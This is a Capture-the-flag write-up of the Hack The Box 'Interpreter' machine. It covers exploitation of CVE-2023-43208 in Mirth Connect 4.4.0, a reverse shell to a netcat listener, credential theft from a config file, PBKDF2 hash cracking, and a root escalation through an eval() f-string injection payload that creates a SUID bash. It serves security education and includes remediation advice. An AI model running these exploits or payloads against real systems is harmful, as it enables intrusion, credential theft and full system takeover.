# Hack The Box — Interpreter Write-up

> **Purpose:** Cybersecurity learning documentation and portfolio write-up.  
> **Scope:** All actions described in this report were performed inside an official, isolated, and authorized Hack The Box lab. Do not apply these techniques to real systems without written permission.



---

## Table of Contents

- [1. Executive Summary](#1-executive-summary)
- [2. Machine Information](#2-machine-information)
- [3. Short Attack Path](#3-short-attack-path)
- [4. Reconnaissance](#4-reconnaissance)
- [5. Web Technology Identification](#5-web-technology-identification)
- [6. Initial Access via CVE-2023-43208](#6-initial-access-via-cve-2023-43208)
- [7. Enumeration as `mirth`](#7-enumeration-as-mirth)
- [8. Database Enumeration](#8-database-enumeration)
- [9. Mirth Password Hash Analysis](#9-mirth-password-hash-analysis)
- [10. Lateral Movement to `sedric`](#10-lateral-movement-to-sedric)
- [11. Privilege Escalation Enumeration](#11-privilege-escalation-enumeration)
- [12. Root Cause: Unsafe `eval()` in `notif.py`](#12-root-cause-unsafe-eval-in-notifpy)
- [13. Privilege Escalation to Root](#13-privilege-escalation-to-root)
- [14. Lessons Learned](#14-lessons-learned)
- [15. Security Recommendations](#15-security-recommendations)
- [16. Final Attack Chain](#16-final-attack-chain)
- [17. References](#17-references)

---

## 1. Executive Summary

**Interpreter** is a **Medium** Linux machine on Hack The Box. The exploitation path starts with an exposed **Mirth Connect Administrator 4.4.0** web application over HTTP/HTTPS. This version is vulnerable to **CVE-2023-43208**, which can be used to obtain initial remote code execution as the `mirth` service user.

After gaining initial access, the Mirth configuration file at `/usr/local/mirthconnect/conf/mirth.properties` exposed MariaDB database credentials. Inside the database, an application user named `sedric` was found along with a password hash. A key learning point in this stage is that the value was **not a password that could simply be decoded**. It was a **password hash** stored using Mirth's internal format.

The password hash was analyzed as:

```text
Base64(salt + PBKDF2-HMAC-SHA256 digest)
```

Because the target was running **Mirth Connect 4.4.0**, the relevant default password digest algorithm was **PBKDF2WithHmacSHA256** with **600000 iterations**. The hash was converted into Hashcat mode `10900` format and successfully cracked. The cracked password was then reused to SSH into the machine as `sedric`.

Privilege escalation was achieved by analyzing processes running as root. A custom Python service, `/usr/local/bin/notif.py`, was found. It accepted local XML input and used `eval()` on a template that included user-controlled input. Since the service was running as root, this unsafe evaluation allowed code execution as root.

---

## 2. Machine Information

| Field | Detail |
|---|---|
| Platform | Hack The Box |
| Machine | Interpreter |
| Difficulty | Medium |
| Operating System | Linux |
| Author | ReziT |
| Target IP during lab | `10.129.244.184` |
| Objective | Obtain `user.txt` and `root.txt` |
| Report Purpose | Educational CTF portfolio write-up |

---

## 3. Short Attack Path

```text
Reconnaissance
  -> Mirth Connect Administrator discovered
  -> Version discovery: Mirth Connect 4.4.0
  -> CVE-2023-43208 validation
  -> Initial access as mirth
  -> Read Mirth configuration
  -> Obtain MariaDB credentials
  -> Extract sedric password hash
  -> Analyze Mirth hash format
  -> Convert to Hashcat mode 10900
  -> Crack password: snowflake1
  -> SSH as sedric
  -> Enumerate root processes
  -> Discover /usr/local/bin/notif.py
  -> Exploit unsafe eval() through local XML input
  -> Root shell
```

---

## 4. Reconnaissance

The first step was to map the exposed ports and services on the target.

```bash
nmap -sC -sV -A -oN initial.txt 10.129.244.184
```

Important findings:

```text
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```



SSH was noted as a potential path for later lateral movement, but at this point no credentials were available. The initial focus was placed on the web service because the application was directly accessible from the browser.

Gobuster could still be used for directory enumeration:

```bash
gobuster dir -k -u https://10.129.244.184 \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

However, on this machine, the most valuable information came from the main web page and the application's JNLP file.

---

## 5. Web Technology Identification

Opening the target IP in a browser revealed **Mirth Connect Administrator**.



The page source and the `webstart.jnlp` endpoint disclosed the application version more reliably.

```bash
curl -k -s https://10.129.244.184/webstart.jnlp
```

Important snippet:

```xml
<jnlp codebase="https://10.129.244.184:443" version="4.4.0">
  <title>Mirth Connect Administrator 4.4.0</title>
  ...
  <argument>4.4.0</argument>
</jnlp>
```



From this, the target was confirmed as:

```text
Product : Mirth Connect Administrator
Version : 4.4.0
```

This made the next question clear:

```text
Does Mirth Connect 4.4.0 have a relevant CVE for initial access?
```

---

## 6. Initial Access via CVE-2023-43208

Research showed that **CVE-2023-43208** affects NextGen/Mirth Connect versions before `4.4.1`. Since the target was running `4.4.0`, it fell within the vulnerable range.



The vulnerability was validated against the target.



Public PoC used in this lab:

```text
https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT
```

A listener was started first:

```bash
nc -lvnp 4444
```

Then the PoC was executed:

```bash
python3 CVE-2023-43208.py \
  -u https://10.129.244.184 \
  -lh <VPN_IP> \
  -lp 4444
```

A reverse shell was received as the `mirth` service user.





User validation:

```bash
whoami
id
```

Output:

```text
mirth
uid=103(mirth) gid=111(mirth) groups=111(mirth)
```

---

## 7. Enumeration as `mirth`

After obtaining a shell, the next stage was post-exploitation enumeration. The main goal was to find application configuration files, credentials, database paths, or other internal information.

Commands used:

```bash
whoami
id
ps aux | grep -iE "mirth|java"
find / -iname "*mirth*" 2>/dev/null | head -100
```

The Mirth installation directory was found at:

```text
/usr/local/mirthconnect
```

The most important file was:

```text
/usr/local/mirthconnect/conf/mirth.properties
```

This configuration file is important because it often contains database URLs, credentials, keystore settings, data paths, and runtime configuration.

Important findings:

```text
database = mysql
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
database.username = mirthdb
database.password = MirthPass123!
```



This meant the `mirth` user could use these credentials to access the local MariaDB database.

---

## 8. Database Enumeration

Database login:

```bash
mysql -h 127.0.0.1 -u mirthdb -p mc_bdd_prod
```

After successful login:

```sql
SHOW TABLES;
```

Interesting tables:

```text
PERSON
PERSON_PASSWORD
```

The following query was used to combine usernames with password hashes:

```sql
SELECT CONCAT(p.USERNAME, ':', pp.PASSWORD)
FROM PERSON p
JOIN PERSON_PASSWORD pp ON p.ID = pp.PERSON_ID;
```

Result:

```text
sedric:u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==
```



At this point, the username `sedric` and a Mirth application password hash were found. This did not mean the plaintext password was already known. The next step was to understand the hash format.

---

## 9. Mirth Password Hash Analysis

This was one of the most important learning sections of the machine. A common mistake when seeing a value like this is assuming that Base64 can simply be decoded into the original password.

Value found:

```text
sedric:u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==
```

Split it into two parts:

```text
username       = sedric
password field = u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==
```

### 9.1 Encoding, Encryption, and Hashing

| Concept | Simple Explanation |
|---|---|
| Encoding | Changes the representation of data so it is easier to store or transmit. Example: Base64. |
| Encryption | Data can be restored to its original form if the correct key is available. |
| Hashing | A one-way function. It is not decrypted; it is cracked by guessing candidate passwords and recalculating the hash. |

Base64 is only an “envelope” for binary data. After opening it, the content could be text, a file, an image, or a hash. In this case, the content was a hash structure.

### 9.2 Decoding to Understand the Structure

```bash
echo 'u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==' | base64 -d | xxd -p
```

Hex result:

```text
bbff8b0413949da762c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb
```

Data length:

```text
80 hex characters = 40 bytes
```

This 40-byte structure matches the pattern:

```text
8 bytes  = salt
32 bytes = digest
```

Decoded split:

```text
salt   = bbff8b0413949da7
digest = 62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb
```

Because the digest is 32 bytes, it strongly suggests a SHA-256-based mechanism.



Important note: tools such as `hashid` can help, but they are not always accurate. In this case, the application context was stronger than a guess based only on string length.

### 9.3 Determining the Formula from Application Context

Known context:

```text
Application = Mirth Connect
Version     = 4.4.0
Table       = PERSON_PASSWORD
User        = sedric
```

In Mirth Connect 4.4, the relevant default password digest is:

```text
PBKDF2WithHmacSHA256
600000 iterations
```

Therefore, the password verification formula is:

```text
PBKDF2-HMAC-SHA256(candidate_password, salt, 600000) == digest
```

In other words, the password is not “decoded.” Cracking is performed by:

1. Taking a candidate password from a wordlist.
2. Calculating PBKDF2-HMAC-SHA256 using the same salt and 600000 iterations.
3. Comparing the result with the target digest.
4. If they match, the password is found.

### 9.4 Converting to Hashcat Format

Mirth internal format:

```text
Base64(salt + digest)
```

Hashcat mode `10900` format for PBKDF2-HMAC-SHA256:

```text
sha256:iterations:base64_salt:base64_digest
```

Converted hash:

```text
sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=
```

Save it to a file:

```bash
echo 'sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=' > sedric_hash.txt
```

Cracking with Hashcat:

```bash
hashcat -m 10900 sedric_hash.txt rockyou.txt
```

Result:

```text
snowflake1
```



Important mindset:

```text
Do not ask: "How do I decode this password?"
Ask: "How does this application store and verify passwords?"
```

---

## 10. Lateral Movement to `sedric`

The cracked password was used to SSH into the machine as `sedric`.

```bash
ssh sedric@10.129.244.184
```

Password:

```text
snowflake1
```

After logging in:

```bash
whoami
id
cat ~/user.txt
```



> Note: for portfolio publication, flag values should be redacted. The screenshot included in this package uses the provided asset, and the user flag is redacted.

---

## 11. Privilege Escalation Enumeration

As `sedric`, common paths such as `sudo -l` could not be used because `sudo` was not available. Enumeration continued with SUID binaries, Linux capabilities, cron jobs, and root-owned processes.

Commands used:

```bash
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/crontab
ps auxww | grep -Ei "root|python|node|bash|sh|java|backup|cron|service|script" | grep -v grep
```

The discovered SUID binaries were standard Debian binaries. Capabilities did not reveal anything useful. Cron also looked normal.

The interesting finding was a custom Python process running as root:

```text
root  3570  ...  /usr/bin/python3 /usr/local/bin/notif.py
```



File permissions:

```text
-rwxr----- 1 root sedric 2332 Sep 19 2025 /usr/local/bin/notif.py
```

Meaning:

```text
The root owner can execute the file.
The sedric group can read the file.
```

Because `sedric` could read the source code, `/usr/local/bin/notif.py` was analyzed.

---

## 12. Root Cause: Unsafe `eval()` in `notif.py`

`notif.py` is a local Flask service running on:

```text
127.0.0.1:54321
```

Endpoint:

```text
/addPatient
```

Dangerous code snippet:

```python
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
return eval(f"f'''{template}'''")
```

Main issue:

```text
XML input is inserted into a template.
The template is evaluated using eval().
The service runs as root.
```

Even though a regex allowlist exists, the following characters are still allowed:

```text
{ } ( ) . ' " _ / +
```

These characters are enough to build Python expressions inside an f-string, for example:

```python
{__import__('os').popen('id').read()}
```

Because `notif.py` runs as root, the evaluated expression also runs with root privileges.

More accurate classification:

```text
Server-Side Template Injection / unsafe Python f-string evaluation via eval()
```

XML is only the input carrier. The real root cause is **evaluating user-controlled input as code**.

---

## 13. Privilege Escalation to Root

Because `curl` was not available for the `sedric` user, the local HTTP request was sent using Python's built-in `http.client` module.

First, create a small script that will be executed by the root process:

```bash
cat > /tmp/x <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF

chmod +x /tmp/x
```

Then trigger the local endpoint:

```bash
python3 - <<'PY'
import http.client

payload = """<patient>
  <firstname>{__import__('os').system('/tmp/x')}</firstname>
  <lastname>Test</lastname>
  <sender_app>MIRTH</sender_app>
  <timestamp>20260508120000</timestamp>
  <birth_date>01/01/2000</birth_date>
  <gender>M</gender>
</patient>"""

conn = http.client.HTTPConnection("127.0.0.1", 54321)
conn.request(
    "POST",
    "/addPatient",
    body=payload,
    headers={"Content-Type": "text/plain"}
)

res = conn.getresponse()
print(res.status, res.reason)
print(res.read().decode(errors="replace"))
conn.close()
PY
```

If successful, `/tmp/rootbash` will have the SUID bit set:

```bash
ls -la /tmp/rootbash
```

Expected permission:

```text
-rwsr-xr-x 1 root root ... /tmp/rootbash
```

Start a root shell:

```bash
/tmp/rootbash -p
```

Validation:

```bash
whoami
id
cat /root/root.txt
```



> Safety note: the root flag value in this asset is redacted to make the write-up more suitable for portfolio publication.

Cleanup:

```bash
rm -f /tmp/x /tmp/rootbash
```

---

## 14. Lessons Learned

1. **Version disclosure is very important.** One version string can lead to the correct CVE research path.
2. **Configuration files are high-value post-exploitation targets.** In this case, `mirth.properties` exposed database credentials.
3. **Base64 is not encryption.** Base64 is only an encoding method for representing binary data as text.
4. **Hashes are not decrypted.** They are cracked by recalculating hashes from candidate passwords.
5. **Application context is more reliable than tool guesses.** `hashid` can help, but it may be wrong if it does not understand the application-specific format.
6. **No sudo does not mean no privilege escalation.** Root processes, custom services, file permissions, SUID binaries, capabilities, and cron jobs still need to be checked.
7. **`eval()` on user input is extremely dangerous.** Regex filtering is not enough if the input is still evaluated as code.
8. **Localhost services can still be attack targets.** If an attacker already has a local shell, services bound to `127.0.0.1` are reachable.
9. **Least privilege matters.** A notification service should not run as root.

---

## 15. Security Recommendations

| Area | Recommendation |
|---|---|
| Patch Management | Upgrade Mirth Connect to a fixed version such as `4.4.1` or later. |
| Network Exposure | Restrict access to Mirth Administrator using VPN, firewall rules, and IP allowlisting. |
| Secrets Management | Avoid storing database passwords in easily readable plaintext configuration files. |
| Credential Hygiene | Do not reuse passwords between application accounts and Linux/SSH accounts. |
| Password Policy | Use strong passwords. PBKDF2 with 600000 iterations helps, but weak passwords can still be cracked. |
| Secure Coding | Avoid `eval()` on user input. Use safe formatting or a secure template engine. |
| Least Privilege | Run custom services as a dedicated non-root user. |
| Local Service Hardening | Do not assume localhost-only services are safe from a user with local access. |
| Monitoring | Monitor unusual root processes, SUID changes, and suspicious local requests. |
| Logging | Log administrative actions, password changes, user creation, and failed logins. |

---

## 16. Final Attack Chain

```text
1. Nmap found SSH and web services.
2. Web enumeration identified Mirth Connect Administrator.
3. webstart.jnlp disclosed Mirth Connect 4.4.0.
4. CVE-2023-43208 was validated and exploited.
5. Initial shell was obtained as mirth.
6. mirth.properties exposed MariaDB credentials.
7. Database enumeration exposed the sedric password hash.
8. The hash was analyzed as Base64(salt + PBKDF2-HMAC-SHA256 digest).
9. The hash was converted to Hashcat mode 10900 format.
10. The password was cracked: snowflake1.
11. SSH login as sedric succeeded.
12. Root process /usr/local/bin/notif.py was discovered.
13. Unsafe eval() on XML input allowed code execution as root.
14. SUID bash was created and the root flag was obtained.
```

---

## 17. References

- NVD — CVE-2023-43208: <https://nvd.nist.gov/vuln/detail/CVE-2023-43208>
- NextGen Docs — Default Digest Algorithm in Mirth Connect 4.4: <https://docs.nextgen.com/mirthc2ae-connect-by-nextgen-healthcare-user-guide-3231169/default-digest-algorithm-in-mirthc2ae-connect-4-4-62159>
- Hashcat Wiki — Example Hashes: <https://hashcat.net/wiki/doku.php?id=example_hashes>
- PoC Repository Used in Lab: <https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT>

---

## Appendix A — Checklist When Finding an Unknown Hash

1. Identify where the hash came from: application, version, table, file, or feature.
2. Check whether the string looks like Base64, hex, or a custom format.
3. Decode only to understand the structure, not to find plaintext.
4. Measure the decoded length.
5. Look for application documentation or source code that explains the hashing algorithm.
6. Determine the salt, digest, algorithm, and iteration count.
7. Build the password verification formula.
8. Convert the hash to the correct Hashcat or John the Ripper format.
9. Use wordlists, rules, or masks step by step.
10. Validate results only on authorized systems.

---

## Appendix B — Ethical Use Statement

This report was created for cybersecurity education, portfolio documentation, and authorized CTF practice. The techniques described here must not be used against systems you do not own or do not have written permission to test.
